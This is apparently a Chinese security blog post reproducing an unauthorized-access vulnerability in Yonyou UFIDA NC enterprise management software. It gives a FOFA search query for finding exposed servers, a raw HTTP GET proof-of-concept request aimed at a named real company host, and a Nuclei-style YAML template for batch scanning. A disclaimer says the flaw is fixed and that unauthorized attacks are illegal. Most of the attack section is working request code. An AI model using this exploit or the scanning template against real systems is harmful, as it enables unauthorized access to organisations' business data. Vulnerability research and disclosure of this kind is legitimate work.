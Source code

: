 # 原创
：  漏洞复现--用友UFIDA NC未授权访问

# 漏洞复现--用友UFIDA NC未授权访问

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

用友NC是一套功能全面、灵活度高、可定制性强的企业管理软件，能够帮助企业提升管理效率、优化资源配置、提高竞争力.该产品存在未授权访问漏洞

### 二：漏洞影响版本

UFIDA-NC

### 三：网络空间测绘查询

fofa:<br/> `product="用友-UFIDA-NC"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e70a867260ab9b1202762d7340fcab49.jpeg"/>

### 四：漏洞复现

POC:

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.release.InfoReleaseAction&amp;method=createBBSRelease&amp;TreeSelectedID=&amp;TableSelectedID= HTTP/1.1
Host: nc.shijian-group.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/86c97c73c7914ea6cd98ee1a09dff162.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/39424105782ba361ee52baa7d0be609d.jpeg"/>

### 五：批量检测

```
id: seeyon-UFIDA-NC-Unauthorized-access

info:
  name: seeyon-UFIDA-NC-Unauthorized-access
  author: 芝士土拨鼠
  severity: high
  description: 用友NC是一套功能全面、灵活度高、可定制性强的企业管理软件，能够帮助企业提升管理效率、优化资源配置、提高竞争力.该产品存在未授权访问漏洞

requests:
  - raw:
      - |+
        GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.release.InfoReleaseAction&amp;method=createBBSRelease&amp;TreeSelectedID=&amp;TableSelectedID= HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: status
        status:
          - 200

```
